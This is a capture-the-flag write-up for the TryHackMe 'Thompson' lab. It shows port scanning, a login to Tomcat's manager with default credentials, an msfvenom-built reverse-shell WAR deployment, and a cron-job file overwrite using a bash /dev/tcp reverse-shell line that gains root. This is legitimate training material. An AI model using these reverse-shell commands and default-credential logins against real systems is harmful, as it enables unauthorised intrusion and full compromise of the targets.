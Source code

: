 # TryHackMe Thompson

> Author: Hades

> [*Scripting here*](https://github.com/leecybersec/scripting)

## VM Details

|**Name**|[Thompson](https://tryhackme.com/room/bsidesgtthompson)|
|---|---|
|**Date release**|594 days old (9/4/2021)|
|**Created by**|[stuxnet](https://tryhackme.com/p/stuxnet)|

## Information Gathering

### Openning Services

```
### Port Scanning ############################
nmap -sS -Pn -p- --min-rate 1000 10.10.139.145
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.

[+] Openning ports: 22,8009,8080

### Services Enumeration ############################
nmap -sC -sV -Pn 10.10.139.145 -p22,8009,8080
Starting Nmap 7.91 ( https://nmap.org ) at 2021-04-09 15:48 +07
Nmap scan report for 10.10.139.145
Host is up (0.23s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 fc:05:24:81:98:7e:b8:db:05:92:a6:e7:8e:b0:21:11 (RSA)
|   256 60:c8:40:ab:b0:09:84:3d:46:64:61:13:fa:bc:1f:be (ECDSA)
|_  256 b5:52:7e:9c:01:9b:98:0c:73:59:20:35:ee:23:f1:a5 (ED25519)
8009/tcp open  ajp13   Apache Jserv (Protocol v1.3)
|_ajp-methods: Failed to get a valid response for the OPTION request
8080/tcp open  http    Apache Tomcat 8.5.5
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/8.5.5
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 17.61 seconds
```

### Apache Tomcat 8.5.5

At port 8080, this is apache tomcat version 8.5.5. 

![](images/1.png)

I try to login to manager page with some default credentials and when I try with username `tomcat` password `s3cret`, I got manager page.

![](images/2.png)

## Foothold

### War file deploy shell

At the manager page, I can deploy web shell using war file deploy in tomcat server.

Create file `shell.war` with msfvenom

```
┌──(Hades㉿10.11.32.198)-[3.2:26.3]~/walkthrough/tryhackme/thompson
└─$ msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.11.32.198 LPORT=443 -f war > shell.war
Payload size: 1082 bytes
Final size of war file: 1082 bytes
```

Upload file to tomcat server.

![](images/3.png)

Go to `http://10.10.139.145:8080/shell/` to execute shell.

```
┌──(Hades㉿10.11.32.198)-[3.2:27.2]~/walkthrough/tryhackme/thompson
└─$ curl http://10.10.139.145:8080/shell/
```

At the listener, I got reverse shell.

```
┌──(Hades㉿10.11.32.198)-[3.2:27.3]~
└─$ sudo nc -nvlp 443               
[sudo] password for kali: 
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.139.145] 50716
id
uid=1001(tomcat) gid=1001(tomcat) groups=1001(tomcat)
```

## Privilege Escalation

### Cron Jobs File Overwrite

At the jack's home folder, there is a file named `id.sh` contain code execute command id and save the result to `text.txt` file

```
tomcat@ubuntu:/home/jack$ ls
id.sh  test.txt  user.txt
tomcat@ubuntu:/home/jack$ cat id.sh 
#!/bin/bash
id > test.txt
tomcat@ubuntu:/home/jack$ cat test.txt 
uid=0(root) gid=0(root) groups=0(root)
```

I know that, admin was create a cron jobs for execute file `id.sh`. Let's confirm it by list cron jobs.

```
tomcat@ubuntu:/home/jack$ cat /etc/crontab
# /etc/crontab: system-wide crontab
<snip>
*  *    * * *   root    cd /home/jack && bash id.sh
```

But file id.sh have privilege 777, can edit by any user.

```
tomcat@ubuntu:/home/jack$ ls -lh id.sh
-rwxrwxrwx 1 jack jack 26 Aug 14  2019 id.sh
```

Add bash reverse shell code to file `id.sh`.

```
echo 'sh -i >& /dev/tcp/10.11.32.198/443  0>&1' > id.sh
```

Wait a second, at the listener I have root shell

```
┌──(Hades㉿10.11.32.198)-[3.1:27.5]~
└─$ sudo nc -nvlp 443                                                                                                                                                   1 ⨯
listening on [any] 443 ...
connect to [10.11.32.198] from (UNKNOWN) [10.10.139.145] 50724
sh: 0: can't access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
```